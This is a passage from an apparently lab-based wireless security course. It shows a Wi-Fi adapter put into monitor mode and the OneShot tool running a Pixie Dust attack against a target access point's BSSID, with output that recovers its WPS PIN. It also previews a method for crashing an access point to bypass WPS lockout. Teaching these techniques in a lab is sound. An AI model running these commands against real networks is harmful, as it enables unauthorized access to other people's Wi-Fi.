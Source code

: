 PHY	Interface	Driver		Chipset

phy1	wlan0		htb80211_chipset	HTB ChipSet of 802.11 radio(s) for mac80211

		(mac80211 monitor mode vif enabled for [phy1]wlan0 on [phy1]wlan0mon)
		(mac80211 station mode vif disabled for [phy1]wlan0)
</code></pre>
<pre><code class="language-shell-session">[!bash!]$ iwconfig

eth0      no wireless extensions.

lo        no wireless extensions.

wlan0mon  IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:on
</code></pre>
<p>Similar to Reaver, OneShot also includes the <code>-K</code> (or <code>--pixie-dust</code>) argument. Let's apply this option and initiate the attack.</p>
<pre><code class="language-shell-session">[!bash!]$ python3 /opt/OneShot/oneshot.py -b 86:FC:9F:5D:67:4E -i wlan0mon -K

[*] Running wpa_supplicant¦
[*] Running wpa_supplicant¦
[*] Trying PIN '61212947'¦
[*] Scanning¦
&lt;SNIP&gt;
 [*] Seed N1:  0xb9d0ec1c
 [*] Seed ES1: 0x00000000
 [*] Seed ES2: 0x00000000
 [*] PSK1:     f83b96cd8204b73edf202c13232907f8
 [*] PSK2:     f67582674650eb5e9a84c42b9a078fcd
 [*] ES1:      00000000000000000000000000000000
 [*] ES2:      00000000000000000000000000000000
 [+] WPS pin:  32552273

 [*] Time taken: 0 s 27 ms
</code></pre>
<p>Based on the output, it is evident that OneShot was successful, recovering the PIN by way of Pixie Dust attack.</p>
<p>In the next section, we will explore ways to potentially crash a target access point, thereby enabling us to bypass the WPS lock and continue our PIN cracking efforts.</p>
<div class="my-3 p-3 vpn-switch-card" id="vpn-switch">
<p class="font-size-14 color-white mb-0">VPN Servers</p>
<p class="font-size-13 mb-0">
<i class="fas fa-exclamation-triangle text-warning"></i><span class="color-white ml-1">Warning:</span> Each
                    time you "Switch",
                    your connection keys are regenerated and you must re-download your VPN connection file.
                </p>
<p class="font-size-13 mb-0">
                    All VM instances associated with the old VPN Server will be terminated when switching to
                    a new VPN server. <br/>
                    Existing PwnBox instances will automatically switch to the new VPN server.</p>
<div class="row mb-3">
<div class="col-12 mt-2">
<div class="d-none justify-content-center vpn-loader">
<div class="spinner-border text-success" role="status">
<span class="sr-only">Switching VPN...</span>
</div>
</div>
<select aria-label="vpn server" class="selectpicker custom-form-control vpnSelector badge-select" title="Select VPN Server">